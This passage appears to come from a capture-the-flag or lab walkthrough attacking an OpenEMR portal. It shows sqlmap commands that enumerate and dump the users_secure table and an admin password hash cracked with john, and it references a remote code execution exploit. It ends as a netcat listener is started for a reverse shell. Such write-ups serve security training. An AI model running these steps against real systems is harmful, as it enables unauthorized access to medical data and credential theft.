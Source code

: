 ```
$ sqlmap -r portal.req --dbs
[...]
available databases [2]:
[*] information_schema
[*] openemr
[...]
```

Two databases come back, but only one will contain useful information, the `openemr` database. Let's continue and see what tables are available.

```
$ sqlmap -r portal.req -D openemr --tables
[...]
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
[...]
```

Great, a few tables are available here, but the most promising one may be the `users_secure` which will potentially have some usernames and passwords. Let's dump it with `sqlmap`.

```
$ sqlmap -r portal.req -D openemr -T users_secure --dump
[...]
openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
[...]
```

We receive the `openemr_admin` credentials with a password hash. Let's crack it with `john`.

![](images/john.png)

The password for the `openemr_admin` user is `xxxxxx`. This will allow us to successfully log in, but from our earlier research, we found that there is an [authenticated remote code execution](https://www.exploit-db.com/exploits/45161) vulnerability.

We'll use this to open a reverse shell to our attack box. Let's start a `netcat` listener.

```
$ nc -lvnp 4444
```
